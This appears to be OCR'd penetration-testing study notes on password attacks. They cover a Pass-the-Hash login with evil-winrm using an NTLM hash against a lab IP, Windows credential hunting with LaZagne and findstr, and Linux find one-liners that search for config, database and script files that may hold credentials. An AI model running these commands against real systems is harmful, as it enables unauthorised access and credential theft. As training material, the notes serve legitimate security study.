 
---

---

`What if we are unsuccessful in cracking a hash?`

## **Pass-the-Hash Considerations**

we can still use the uncracked hash to attempt to authenticate using a Pass-the-Hash attack.

- `evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"`

more on `PtH` in AD Enumeration and Attacks module

# Credential Hunting in Windows

process of performing detailed searches across the file system and through various applications to discover credentials

- [\*\*`Lazangne`](https://github.com/AlessandroZ/LaZagne/releases) [](https://github.com/AlessandroZ/LaZagne)\*\*discover creds that web browser or other app may insecurely store
  - `start lazagne.exe all` → will run all included modules
- **`findstr` →** `findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml`

# Linux Local Password Attacks

## **Credential Hunting in Linux**

| Files        | History              | Memory               | Key-Rings                  |
| ------------ | -------------------- | -------------------- | -------------------------- |
| Configs      | Logs                 | Cache                | Browser stored credentials |
| Databases    | Command-line History | In-memory Processing |                            |
| Notes        |                      |                      |                            |
| Scripts      |                      |                      |                            |
| Source codes |                      |                      |                            |
| Cronjobs     |                      |                      |                            |
| SSH Keys     |                      |                      |                            |

### Searching for specific files

- `for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l **2**>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
- `for l in $(echo ".sql .db .*db .db*");do echo -e "\nDB File extension: " $l; find / -name *$l **2**>/dev/null | grep -v "doc\|lib\|headers\|share\|man";done`
- `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l **2**>/dev/null | grep -v "doc\|lib\|headers\|share";done`
